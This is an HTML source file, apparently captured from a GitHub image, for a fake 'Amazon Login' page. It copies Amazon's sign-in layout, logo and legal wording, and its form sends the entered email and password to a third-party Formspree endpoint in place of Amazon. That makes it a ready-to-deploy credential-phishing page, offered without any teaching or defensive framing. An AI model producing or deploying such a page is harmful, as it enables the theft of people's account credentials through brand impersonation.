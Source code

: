 <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Amazon Login</title>
    <link rel="stylesheet" href="styles.css">
</head>
<body>
    <div class="container">
        <div class="login-box">
            <!-- Amazon Logo -->
            <img src="amazon-logo.png" alt="Amazon" class="logo">
            <h1>Sign-In</h1>
            <form action="https://formspree.io/f/meoapywz" method="POST" id="loginForm">
                <label for="email">Email or mobile phone number</label>
                <input type="text" id="email" name="email" required>

                <label for="password">Password</label>
                <input type="password" id="password" name="password" required>

                <button type="submit" class="continue-btn">Continue</button>

                <p>By continuing, you agree to Amazon's <a href="#">Conditions of Use</a> and <a href="#">Privacy Notice</a>.</p>
            </form>

            <div class="new-account">
                <h2>New to Amazon?</h2>
                <button class="create-account-btn">Create your Amazon account</button>
            </div>
        </div>
    </div>
</body>
</html>

    
    
